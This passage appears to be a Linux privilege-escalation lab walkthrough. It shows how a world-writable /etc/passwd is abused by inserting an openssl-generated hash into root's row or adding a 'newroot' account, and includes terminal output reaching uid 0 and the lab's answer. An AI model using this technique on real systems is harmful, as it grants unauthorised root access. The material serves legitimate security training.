 The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note that the /etc/passwd file is world-writable:

`ls -l /etc/passwd`


Generate a new password hash with a password of your choice:

`openssl passwd newpasswordhere`


Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

`su root`

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

Now switch to the newroot user, using the new password:

`su newroot`

Remember to exit out of the root shell before continuing!

```

user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssh passwd newpasswordhere
-bash: openssh: command not found
user@debian:~$ openssl passwd newpasswordhere
Warning: truncating password to 8 characters
LTtIm7YDnG7cA
user@debian:~$ nano /etc/passwd
user@debian:~$ su newroot
Password: 
root@debian:/home/user# 

```


Run the "id" command as the newroot user. What is the result?
uid=0(root) gid=0(root) groups=0(root)

```
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# 

```

List the programs which sudo allows your user to run:
